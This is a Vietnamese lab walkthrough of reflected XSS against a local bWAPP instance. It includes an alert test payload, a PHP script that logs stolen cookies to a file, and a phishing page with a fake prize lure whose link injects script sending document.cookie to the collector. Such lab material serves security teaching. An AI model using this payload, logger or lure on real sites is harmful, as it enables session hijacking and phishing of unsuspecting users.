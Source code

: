 Thử nhập vào 2 box nhập họ tên, ta thấy có response lại là 1 message chào họ tên ta vừa nhập:

![image](https://github.com/NVex0/Cong_nghe_web_an_toan/assets/113530029/901302a7-0605-4af3-8568-f801acc22ddb)

Để ý trên URL, 2 trường này được GET toàn bộ thông tin ta nhập vào rồi trả về đúng như thế. Có thể thử thêm bằng bôi đen:

![image](https://github.com/NVex0/Cong_nghe_web_an_toan/assets/113530029/01069ea9-0246-489f-87b7-0ac861c09285)

Như vậy ta đoán được web vulnerable với XSS, thử truyền vào javascript `<script>alert("Hacked")</script>`:

![image](https://github.com/NVex0/Cong_nghe_web_an_toan/assets/113530029/9333478e-3959-4351-a3d2-395854fa816b)

Vậy là đã chắc chắn web vulnerable với XSS, ta sẽ tiến hành khai thác bằng kỹ thuật đánh cắp cookie:

  - Đầu tiên là code php crawl cookie:

  ```
  <?php
      if(isset($_GET['cookie']))
      {
          $cookie = $_GET['cookie'];
          // Mở file cookie.txt, tham số a nghĩa là file này mở chỉ để write chứ không scan hay read
          $f=fopen('cookie.txt','a');
          // Ta write địa chỉ trang web mà ở trang đó bị ta chèn script.
          fwrite($f,$_SERVER['HTTP_REFERER']);
          // Ghi giá trị cookie
          fwrite($f,". Cookie la: ".$cookie." \n");
          // Đóng file lại
          fclose($f);
      }
  ?>
  ```
  - Tiếp đến là 1 tệp html phishing đối tượng:
  ```
  <html>
    <head>
        <title>CHUC MUNG!!!</title>
    </head>
    <body>
        <h1 align="center">Ban da trung 1 tour di du lich quanh My mien phi cho ca gia dinh!!!!</h1>
        <h1 align="center">-My Dinh Bus-</h1>
    Xem thong tin chi tiet <a href='http://localhost/bwapp/xss_get.php?firstname=%3Cscript%3Ewindow.open%28%22http%3A%2F%2Flocalhost%2Fget.php%3Fcookie%3D%22%2Bdocument.cookie%29%3C%2Fscript%3E&lastname=Hung&form=submit'>tai day</a> .
    </body>
</html>
```

Khi đối tượng ấn vào link href sẽ bị chuyển hướng tới web đã bị đệm javascript, sau đó sẽ bị crawl cookie về cookie.txt tại máy hacker:

![image](https://github.com/NVex0/Cong_nghe_web_an_toan/assets/113530029/45200970-4482-4cea-a057-a00670c28cd5)
